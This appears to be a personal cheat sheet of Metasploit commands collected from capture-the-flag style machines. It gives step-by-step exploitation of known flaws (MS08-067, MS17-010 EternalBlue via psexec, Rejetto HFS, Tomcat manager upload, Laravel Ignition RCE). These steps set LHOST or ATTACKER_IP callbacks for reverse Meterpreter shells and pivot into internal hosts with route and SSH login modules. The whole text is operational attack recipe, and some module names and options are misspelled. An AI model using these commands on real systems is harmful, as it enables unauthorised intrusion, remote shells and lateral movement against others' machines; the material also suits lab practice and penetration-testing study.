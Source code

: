 # --> The random commands I collected


## Get box with msfconsole

search achat

use explot/windows/misc/achat_bof

show options  

set RHOST 10.10.10.74  

set LHOST tun0  

set LPORT 9001

run

---
<br/>


## Simple Exploit

```
msfconsole
use multi/http/tomcat_mgr_upload
exploit
```


## Exploit and Open msfconsole

```
--> I used msfconsole for this one since I couldn't get shellcode to work, here is a high level of my commands:
search ms08_067_netapi  
show options  
set RHOST --> this is the remote host to attack
set LHOST --> this is your host for the call back
check --> this acutally checks to see if rhost is vulnerable
run
--metaterperater will load--
shell --> to open command shell
```


## MetaSploit Module Commands:

```
msfconsole

search rejetto

use exploit/windows/http/rejetto_hfs_exec

show options

set Proxies http:127.0.0.1:8080

set RHOST 10.10.10.8

set SRVHOST 10.10.14.31

set SRVPORT 8088

set ReverseAllProxy true

run

meterpreter sysinfo

migrate 1788 --> Process number

set payload
```

## Msploit exploit suggester

search suggester
use post/multi/recon/local_exploit_suggester
set SESSION 1
run


## Hack a Web Server in a docker image, then pivot to the DB and host

```

use multi/php/ignition_laravel_debug_rce
check rhost=10.10.234.246 HttpClientTimeout=20
run rhost=10.10.234.246 lhost=ATTACKER_IP HttpClientTimeout=20
## At this point you will a basic shell
background
sessions
sessions -u -1
sessions
sessions -i -1
# At this point you will be loggecd into a Meterpreter session
resolve webservice_database
background
# Database IP
route add 172.28.101.51/32 -1
# Host IP
route add 172.17.0.1/32 -1
route print
# SSH inot host
use auxiliary/scanner/ssh/ssh_login
run ssh://USER:PASSWORD@172.17.0.1
sessions
# You should now see your ssh session
# Login to ssh session
sessions -i -1

```

## Search to see if Vulnerable and then exploit

```
search smb
grep scanner search smb
use auxiliary/scanner/smb/smb_ms17_010
show options
run


grep exploit search smb
use exploit/windows/smb/ms17_010_psexec
show options
set
set payload windows/meterpreter/reverse_http
set LHOSTS
exploit

```
